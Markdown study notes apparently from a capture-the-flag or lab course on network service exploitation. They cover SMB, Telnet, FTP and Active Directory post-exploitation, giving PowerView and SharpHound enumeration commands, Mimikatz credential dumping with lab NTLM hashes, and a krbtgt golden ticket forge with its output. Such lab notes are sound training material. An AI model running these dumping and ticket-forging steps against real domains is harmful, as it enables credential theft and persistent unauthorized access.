


# Network Services  

Learn about, then enumerate and exploit a variety of network services and misconfigurations.  

## Table of Contents

- [Table of Contents](#table-of-contents)
- [XFREERDP](#xfreerdp)
- [SMB](#smb)
  - [Enumerate SMB](#enumerate-smb)
  - [Exploit SMB with SMBClient](#exploit-smb-with-smbclient)
- [Telnet](#telnet)
  - [Enumerate Telnet](#enumerate-telnet)
  - [Exploiting Telnet](#exploiting-telnet)
- [FTP](#ftp)
  - [Enumerating FTP](#enumerating-ftp)
  - [Exploiting FTP](#exploiting-ftp)
- [Powerview](#powerview)
  - [Enumeration with Powerview](#enumeration-with-powerview)
- [Bloodhound](#bloodhound)
  - [Install Bloodhound on the Attacking device](#install-bloodhound-on-the-attacking-device)
  - [Run SharpHound on the victim Device](#run-sharphound-on-the-victim-device)
  - [Run Bloodhound on the Attacking device](#run-bloodhound-on-the-attacking-device)
- [Mimikatz](#mimikatz)
  - [Dump Hashes](#dump-hashes)
  - [Golden Ticket Attacks](#golden-ticket-attacks)
  - [Golden Ticket access](#golden-ticket-access)


## XFREERDP

[Guide](https://man.freebsd.org/cgi/man.cgi?query=xfreerdp)  

`:> xfreerdp /u:Administrator /p:P@$$w0rd /v:10.65.184.100`

## SMB

Server Message Block Protocol
client-server communication protocol
known as a response-request protocol: transmits multiple messages between the client and server to establish a connection
used for sharing access to files, printers, serial ports and other resources on a network
Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.

Servers make file systems and other resources (printers, named pipes, APIs) available to clients on the network. 

Once they have established a connection, clients can then send commands (SMBs) to the server that allow them to access shares, open files, read and write files

### Enumerate SMB

***Port Scanning***  

***Enum4Linux***  

Enumerates on both Windows and Linux  
Wrapper around Samba package tools
[Source](https://github.com/CiscoCXSecurity/enum4linux)

[Usage](https://labs.portcullis.co.uk/tools/enum4linux/)  

### Exploit SMB with SMBClient

`:> smbclient //<IP>/<Share> -U <username> -p <port>`  

## Telnet

connect to and execute commands on a remote machine that's hosting a telnet server.  
sends all messages in clear text and has no specific security mechanisms  
connect : `:> telnet <IP> <port>`  

### Enumerate Telnet

***Port Scanning***

### Exploiting Telnet  

credential brute forcing  

reverse shells

## FTP

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel 

In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it.  
In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.  

### Enumerating FTP 

Port scanning  

### Exploiting FTP  

Hydra password cracking tool  

## Powerview

Post-exploitation and persistence tool  

powershell script from [Powershell Empire](https://www.powershellempire.com/)  

used for enumerating a domain after achieving access  

### Enumeration with Powerview 

[Cheatsheet] (https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)  

`:> powershell -ep bypass` : start powershell and bypass execution policy  

`:> . .\<path>\PowerView.ps1` : start powerview, not a required space between the first `.` and the second `.`

`:> get-NetUser | select cn` : enumerate domain users

```md
PS C:\Users\Administrator> Get-NetUser | select cn

cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
```

`:> Get-NetGroup -GroupName *admin*` : Enumerate domain groups

```md
Administrators 
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins 
Key Admins
Enterprise Key Admins
DnsAdmins
```

## Bloodhound

Post-exploitation and persistence tool  

graphical interface that allows you to visually map out the network  

[Documentation](https://github.com/SpecterOps/bloodHound-docs)

Often used in conjunction with [SharpHound](https://docs.taegis.secureworks.com/detectors/sharphound/)  

### Install Bloodhound on the Attacking device

`:> apt-get install bloodhound` 

`:> neo4j console`  

  
  


### Run SharpHound on the victim Device

`PS:> powershell -ep bypass`  
`PS:> . .\<path>\SharpHoud.ps1`  
`PS:> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`  

  

Transfer the zip file to the attacking device.  


### Run Bloodhound on the Attacking device 

`:> bloodhound --no-sandbox`  

Unzip and Import the loot.zip file  


Drag and drop the files onto the interface  

  

## Mimikatz

Post-exploitation tool
used for dumping user credentials inside active directory networks
[Documentation](https://github.com/ParrotSec/mimikatz)  

### Dump Hashes

`:> privilege::debug`

```md
Privilege '20' OK <- indicates mimikatz is running as administrator
```

`:> lsadump::lsa /patch`  

```md
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest 
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :  
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2 

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : d6798027b1863ea0effd107bfcd9d784

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c 

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

### Golden Ticket Attacks  

`:> lsadump::lsa /inject /name:krbtgt` <- dump hash and SID of the Kerberos Ticket Granting Ticket account>

```md
Domain : CONTROLLER / ***S-1-5-21-849420856-2351964222-986696166***

RID  : 000001f6 (502)
User : ***krbtgt***

 * Primary
    NTLM : ***5508500012cc005cf7082a9a89ebdfdf***
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea 
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c 
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094 
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys 
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4

```

`:> kerberos::golden /user:krbtgt /domain:CONTROLLER.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:502 `

```md
User      : krbtgt 
Domain    : CONTROLLER.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 502
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 1/23/2026 6:15:31 PM ; 1/21/2036 6:15:31 PM ; 1/21/2036 6:15:31 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

### Golden Ticket access

`:> misc::cmd` <- open new command prompt with elevated privileges

live off the land to identfy and access other macines on the network


